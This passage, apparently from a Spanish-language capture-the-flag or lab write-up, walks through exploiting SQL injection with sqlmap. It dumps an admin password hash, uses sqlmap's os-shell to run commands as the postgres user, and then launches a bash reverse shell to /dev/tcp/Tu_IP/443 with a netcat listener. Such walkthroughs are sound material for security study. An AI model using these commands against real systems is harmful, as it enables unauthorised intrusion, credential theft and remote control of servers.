 ```bash
[*] starting @ 21:00:48 /2023-05-19/
...
...
...
[21:02:28] [WARNING] no clear password(s) found                                                                                       
Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

Tenemos un usuario y contraseña, agrega esas credenciales en sus respectivos parámetros del la petición que guardaste y con **SQLMAP**, vamos a obtener una shell temporal para ver si podemos ejecutar comandos:
```bash
sqlmap -r request.txt --force-ssl --batch --os-shell           
       __H__                                                                                                                           
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                                                               
|_ -| . [.]     | .'| . |                                                                                                              
|___|_  ["]_|_|_|__,|  _|                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                           
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:04:38 /2023-05-19/
...
...
...
[21:04:47] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[21:05:02] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
os-shell>
```

Excelente, podemos usar comandos, ya solo conéctate de manera remota con el mismo código de la **Reverse Shell**, obviamente, abre una **netcat**:
```bash
[21:05:02] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
os-shell> bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'
do you want to retrieve the command standard output? [Y/n/a] Y
```
